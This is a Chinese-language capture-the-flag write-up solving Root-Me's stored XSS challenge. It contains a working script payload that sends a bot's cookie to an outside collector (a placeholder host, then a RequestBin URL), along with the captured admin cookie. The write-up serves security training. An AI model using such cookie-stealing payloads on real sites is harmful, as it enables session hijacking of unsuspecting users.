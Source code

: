 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-client/xss-stored1/)]

------

已经很直白提示是存储型 XSS 题型。

页面需要提交一个表单，在 Message 区测试注入一个 html 代码 `<img src=0 />`，提交后发现直接作为图片元素渲染。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/01.png)

打开浏览器的开发者工具查看，不难发现 Cookie 并没有标注 `HttpOnly` 属性，说明可以利用 `document.cookie` 发起 XSS 攻击。

多刷新几次页面，发现这台靶机后台有个机器人线程在定时读取我们提交的消息，当读取之后，该消息会被删掉，此时页面底部会提示 `Your messages have been read` 。

而我们要做的就是把 XSS 的 payloads 消息存储到后台，当机器人读取到这条消息时，就会把这个机器人的 Cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么可以在 Message 区构造一个这样的 payloads ：

`exp:<script>document.write("<img src=${HOST}?tk="+document.cookie+" />");</script>`

（注：此 payloads 建议直接在页面提交，若使用 Burp Suite 提交注意需要先把 `+` 编码成 `%2B` ，否则会导致服务器报错收不到消息）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/02.png)

提交 payloads 消息后，就登录到 `${HOST}` 服务器守株待兔即可 (大概需要等5分钟)，只要机器人读取了这条消息，就能收到其 Cookie 。

对于这个 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/qnwgrmqn`，则把 payloads 修改为：

`exp:<script>document.write("<img src=http://requestbin.fullcontact.com/qnwgrmqn?tk="+document.cookie+" />");</script>`

当然你也可以选择自己实现一个 HTTP 服务器，但是必须有公网 IP。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/03.png)

最终收到的 Cookie 为：`ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6`，其值就是 flag，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
